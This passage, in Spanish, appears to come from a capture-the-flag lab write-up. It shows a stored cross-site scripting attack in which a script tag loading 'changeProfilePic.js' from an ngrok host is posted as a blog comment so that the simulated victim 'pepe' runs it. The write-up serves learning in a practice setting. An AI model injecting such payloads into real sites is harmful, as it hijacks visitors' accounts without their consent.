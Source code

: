 Finalmente creamos la *tag* *script* de la siguiente forma:
```html
<script src="https://dc76-2800-810-596-32eb-54b0-6121-ac3f-bb99.ngrok-free.app/changeProfilePic.js"></script>
```

Lo ingresamos como comentario en el blog, y lo enviamos.

![](images/blogHackLab/exploit.png)

Notamos que en las consolas se hizo una solicitud al recurso `changeProfilePic.js`.
![](images/blogHackLab/requestChangeProfilePic.png)

Para este punto el ataque ya está hecho. Sólo es cuestión de tiempo para que pepe ingrese al blog y sea víctima de nuestro *script*.

Con el objetivo de agilizar un poco las cosas, la plataforma que sirve los desafíos decidió implementar un mecanismo para simular a pepe ingresando ingenuamente al blog. Para utilizarlo, debemos copiar el link de la instancia en el enunciado y presionar el boton `Engañar a Pepe para que ingrese al Blog`

![](images/blogHackLab/linkAPepe.png)
